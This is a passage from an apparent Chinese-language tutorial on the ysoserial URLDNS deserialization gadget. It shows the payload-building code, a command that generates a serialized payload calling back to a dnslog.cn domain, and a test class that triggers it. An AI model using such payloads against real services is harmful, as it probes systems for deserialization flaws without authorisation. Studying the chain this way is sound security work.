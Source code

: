 ```java
		}
		System.exit(0);
	}
```

URLDNS类getObject方法

```java
public Object getObject(final String url) throws Exception {

                //Avoid DNS resolution during payload creation
                //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
  							//创建了URLStreamHandler对象
                URLStreamHandler handler = new SilentURLStreamHandler();
								//创建了HashMap对象
                HashMap ht = new HashMap(); // HashMap that will contain the URL
  							//URL对象 url=http://64hu68.dnslog.cn
                URL u = new URL(null, url, handler); // URL to use as the Key
  							//将URL对象作为HashMap中的key，dnslog地址为值，存入HashMap中。
                ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.
								//通过反射机制 设置URL对象的成员变量hashCode值为-1
                Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.
								//将HashMap对象返回
                return ht;
}
```

接着对**HashMap对象**进行序列化操作Serializer.serialize(object, out);并将序列化的结果重定向到dnslog1.ser文件中

## 实验验证

**序列化过程：**用打包出来的jar，生成序列化的文件。

```shell
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS "http://64hu68.dnslog.cn" > dnslog1.ser
```

之后在ysoserial-0.0.6-SNAPSHOT-all.jar同目录下就有生成的dnslog1.ser序列化文件。
**反序列化过程：**写一个测试类反序列化写入上面序列化的文件。

```java
package ysoserial;

import java.io.FileInputStream;
import java.io.ObjectInputStream;

public class Test {

    public static void main(String[] args) throws Exception {
        ObjectInputStream os = new ObjectInputStream(new FileInputStream("target/dnslog1.ser"));
        os.readObject();
        System.out.println("OK");
    }
}
```

